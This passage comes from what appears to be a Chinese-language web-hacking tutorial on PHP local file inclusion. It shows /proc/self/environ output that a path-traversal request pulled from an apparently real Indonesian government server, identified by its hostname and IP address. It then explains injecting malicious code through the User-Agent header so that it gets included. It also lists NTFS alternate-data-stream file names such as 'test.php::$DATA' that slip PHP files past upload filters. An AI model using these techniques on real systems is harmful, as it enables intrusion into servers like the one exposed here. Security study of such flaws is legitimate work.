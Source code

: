 ```php
REMOTE_PORT=21007
REQUEST_METHOD=GET
REQUEST_URI=/?page=../../../../proc/self/environ
SCRIPT_FILENAME=/home/dprdicom/public_html/smscenter/index.php
SCRIPT_NAME=/index.php
SERVER_ADDR=103.28.12.130
SERVER_ADMIN= _NAME=smscenter.dprdbekasikota.go.id
SERVER_PORT=80
SERVER_PROTOCOL=HTTP/1.1
SERVER_ 
```

**注意这一段：**

HTTP_USER_AGENT=Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:27.0) Gecko/20100101 Firefox/27.0 

找到了可控目标接下来就是在 UA 中注入我们的恶意代码，

**如图所示：**

[![img](assets/202304161625814.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/UA注入.png)

然后就包含啦

#### **4.包含上传的文件**

有上传点是最好的了，上传的内容可以是任意的后缀名，不影响最终的结果。

这里有一些使用 NTFS ADS 文件流绕过检测的方法，值得大家参考

在测试中我们发现，如果上传的文件名字为：test.php::$DATA，会在服务器上生成一个test.php的文件，其中内容和所上传文件内容相同，并被解析。假设我们需要上传的文件内容为：<?php phpinfo();?>下面是上传是会出现的现象：

```php
上传 Test.php:a.jpg     生成Test.php  文件内容为空

上传 Test.php::$DATA  生成test.php  文件内容为<?php phpinfo();?>

上传 Test.php::$INDEX_ALLOCATION  生成test.php文件夹

上传 Test.php::$DATA\0.jpg  生成0.jpg  文件内容为<?php phpinfo();?>

上传 Test.php::$DATA\aaa.jpg  生成aaa.jpg  文件内容为<?php phpinfo();?>

PS: 上传test.php:a.jpg的时候其实是在服务器上正常生成了一个数据流文件，可以通过notepad test.php:a.jpg查看内容，而test.php为空也是正常的。
```
